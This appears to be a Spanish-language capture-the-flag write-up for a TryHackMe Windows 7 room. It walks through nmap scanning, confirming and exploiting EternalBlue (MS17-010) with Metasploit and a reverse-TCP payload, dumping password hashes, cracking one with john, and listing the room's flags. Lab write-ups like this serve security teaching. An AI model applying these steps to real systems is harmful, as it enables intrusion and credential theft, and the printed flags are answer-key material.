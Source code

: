 ```yaml
---
title: Untitled
date: 2023-02-15
---
```


## Reconocimiento

Antes de comenzar comprobamos mediante [[ping]] que la máquina se encuentra activa, además en base al ttl ([[Fingerprinting]]), podemos presuponer que se trata de una máquina **windows**.

Procedemos ahora a buscar puertos abiertos con [[nmap]]:

```bash
nmap -sS -p- --open --min-rate 5000 -n -Pn <ip>
```
```bash
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown
```

Vemos algunos puertos interesantes, así que procedemos con un escaneo más exahustivo:

```bash
nmap -sS -p135,139,445,3389,49152,49153,49154,49158,49159 -sCV -n -Pn <ip>
```
```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
|_ssl-date: 2023-02-15T19:38:05+00:00; 0s from scanner time.
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h30m00s, deviation: 3h00m00s, median: 0s
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:df:b4:90:66:e7 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-02-15T13:37:50-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-02-15T19:37:50
|_  start_date: 2023-02-15T19:28:53
```

Vemos que tenemos un servicio *samba*, que podría ser interesante. Para tratar de buscar posibles vulns, buscaremos en internet vulns para `Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)`. Encontrando que posiblemente sea vulnerable al [[EternalBlue]] (*MS17-010*). Para comprobarlo, utilizaremos de nuevo nmap:

```bash
nmap -sS -p445 --script vuln -n -Pn <ip>
```
```bash
[...]
Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
[...]
```

O bien:

```bash
nmap -p 445 --script=smb-vuln-ms17-010.nse <ip>
```
```bash
[...]
Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
[...]
```

## Explotación

En este punto nos encontramos ante un [[EternalBlue]], así que tenemos dos opciones, expllotarlo mediante [[metasploit]] o manualmente:

#### Metasploit

Comenzamos abriendo la consola de metasploit, y buscamos *ms17-10*:

```bash
msfconsole
```
```bash
search ms17-10
```

Y utilizaremos un exploit llamado `exploit/windows/smb/ms17_010_eternalblue`, así que selecccionamos dicha opción:

```bash
use <option>
```

Con `set` guardamos en `RHOST` la ip de la máquina objetivo y en `LHOST` la de nuestra máquina y ejecutamos `run`. En ocasiones puede ser que no funcione a la primera, en tal caso simplemente repite el proceso.

OPCIONAL - En caso de querer, *tryhackme* nos recomienda que ejecutemos antes del run, `set payload windows/x64/shell/reverse_tcp`, esto es para que luego tengamos que realizar un tratamiento de la tty para migrar una shell normal a una de *meterpreter*.

En este caso simplemente debemos pulsar CTL+Z para poner la sesión en segundo plano y seguidamente, utilizar el exploit `post/multi/manage/shell_to_meterpreter`. Simplemente cambiamos el `LHOST` y `session` con `set`, asignándo nuestra ip y el id de sesión (podemos verlo con `sessions -l`). Si no funciona tocará repetir los pasos anteriores, sin embargo, en caso de éxito tendríamos una shell con mayor funcionalidad y estabilidad. Una vez completado volvemos a la sesion con `sessions <session id>`.

#### Manualmente

to do

## Escalada de privilegios

En caso de tener éxito, ya tendríamos una shell con máximos privilegios, tanto con metasploit como si lo hemos hecho manual (es lo bueno del eternalblue):

```bash
C:\Windows\system32>whoami
whoami
nt authority\system
```

## Obteniendo y crackeando los hashes

#### Con meterpreter (metasploit)

Una vez tenemos la sesión de meterpreter, podemos obtener los hashes con `hashdump`:

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

En este punto podríamos tratar de crackear los hashes con [[john]]:

```bash
john --format=nt -w=/usr/share/wordlists/rockyou.txt hashes.txt
```
```bash
                 (Administrator)     
alqfna22         (Jon)
```

Como vemos obtenemos las credenciales del usuario `Jon:alqfna22`.

En este punto, podemos spawnear una shell de meterpreter con `shell`, y la primera flag se encuentra en `C:\` (`flag{access_the_machine}`), la segunda en `C:\Windows\System32\config` (`flag{sam_database_elevated_access}`), y la tercera en `C:\Users\Jon\Documents` (`flag{admin_documents_can_be_valuable}`).